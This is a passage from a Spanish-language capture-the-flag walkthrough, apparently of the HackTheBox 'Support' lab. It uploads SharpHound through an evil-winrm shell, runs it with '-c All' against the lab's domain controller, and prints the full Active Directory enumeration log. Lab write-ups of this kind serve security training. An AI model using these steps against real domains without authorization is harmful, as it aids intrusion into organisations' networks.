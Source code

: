 * <a href="https://github.com/SpecterOps/BloodHound" target="_blank">Repositorio de SpecterOps: BloodHound CE</a> -> <a href="https://github.com/BloodHoundAD/SharpHound/releases" target="_blank">Repositorio de BloodHoundAD: SharpHound - Releases (Cualquier Versión 2x)</a>

Puedes ocupar cualquiera de los dos, pero por ahora ocupare la primera opción, pues no he probado al 100% **BloodHound CE**.

Con la versión **BloodHound CE**, se automatiza bastante el despliegue de la herramienta, por lo que es muy recomendable usarla. Además, de que es la más actualizada, pero esto lo dejo a tu consideración.

Una vez que despliegues **BloodHound**, sube la herramienta **SharpHound** a la sesión de **evil-winrm** para poder usarla:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> upload SharpHound.exe
Info: Uploading ../SharpHound.exe
Data: 1402880 bytes of 1402880 bytes copied
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> dir

    Directory: C:\Users\support\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/28/2024   8:28 PM        1052160 SharpHound.exe
```

Una vez cargada, nosotros queremos obtener todo lo que se pueda obtener, por lo que ocuparemos el parámetro `-c All`:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> .\SharpHound.exe -c All
2024-09-28T20:29:38.9858283-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-09-28T20:29:39.0952024-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-28T20:29:39.1108265-07:00|INFORMATION|Initializing SharpHound at 8:29 PM on 9/28/2024
2024-09-28T20:29:39.1733302-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for support.htb : dc.support.htb
2024-09-28T20:29:39.2983299-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-28T20:29:39.4077016-07:00|INFORMATION|Beginning LDAP search for support.htb
2024-09-28T20:29:39.4389584-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-09-28T20:29:39.4389584-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-09-28T20:30:10.1733319-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-09-28T20:30:22.9702043-07:00|INFORMATION|Consumers finished, closing output channel
2024-09-28T20:30:23.0014527-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-09-28T20:30:23.1108309-07:00|INFORMATION|Status: 109 objects finished (+109 2.534884)/s -- Using 44 MB RAM
2024-09-28T20:30:23.1108309-07:00|INFORMATION|Enumeration finished in 00:00:43.7019198
2024-09-28T20:30:23.1733342-07:00|INFORMATION|Saving cache with stats: 68 ID to type mappings.
 68 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-09-28T20:30:23.1733342-07:00|INFORMATION|SharpHound Enumeration Completed at 8:30 PM on 9/28/2024! Happy Graphing!
*Evil-WinRM* PS C:\Users\support\Documents> dir

    Directory: C:\Users\support\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/28/2024   8:30 PM          12595 20240928203022_BloodHound.zip
```